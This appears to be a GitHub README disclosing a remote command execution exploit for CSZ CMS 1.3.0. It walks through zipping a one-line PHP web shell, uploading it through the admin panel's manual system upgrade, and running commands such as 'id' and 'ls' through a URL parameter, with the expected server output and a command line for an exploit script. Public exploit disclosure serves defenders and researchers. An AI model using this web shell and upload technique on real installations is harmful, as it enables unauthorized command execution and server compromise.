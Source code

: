 ## CSZ CMS Version 1.3.0 Remote Command Execution

**Exploit Title:** CSZ CMS Version 1.3.0 Remote Command Execution  
**Date:** 23/11/2023  
**Exploit Author:** tmrswrr  
**Vendor Homepage:** [https://www.cszcms.com/](https://www.cszcms.com/)  
**Software Link:** [SourceForge](https://www.cszcms.com/link/3#https://sourceforge.net/projects/cszcms/files/latest/download)  
**Version:** 1.3.0  
**Tested on:** [Softaculous CSZ CMS](https://www.softaculous.com/apps/cms/CSZ_CMS)

## Steps to Reproduce:

1. Enter the admin panel and go to this URL: `https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/admin/upgrade`

2. Create a zip file using the command:
   ```bash
   zip poc.zip poc.php
   <?php echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; ?>
   ```
3. Go to System Upgrade Manually and upload the poc.zip file.

4. Execute commands remotely:
   - Test the execution with the `id` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=id
     ```
     Expected output:
     ```
     uid=1000(soft) gid=1000(soft) groups=1000(soft)
     ```
   - List directory contents using the `ls` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=ls
     ```
     Expected output:
     ```
     CHANGELOG
     CONTRIBUTING.md
     LICENSE.md
     README.md
     SECURITY.md
     a.php
     assets
     cache.config.inc.php
     config.inc.php
     config_example.inc.php
     corecss.css
     corejs.js
     cszcms
     devtoolsbar.config.inc.php
     env.config.inc.php
     htaccess.config.inc.php
     index.php
     install
     memcached.config.inc.php
     nginx_example.com.conf
     photo
     poc.php
     proxy.inc.php
     redis.config.inc.php
     system
     templates
     test.php
     ```
## Exploit:

```python3 CSZ_CMS.py https://demos1.softaculous.com/CSZ_CMSladcjtgqrm/ id```

<img src="https://raw.githubusercontent.com/capture0x/CSZ_CMS/main/1.png" alt="CMS IMAGE" width="1000">
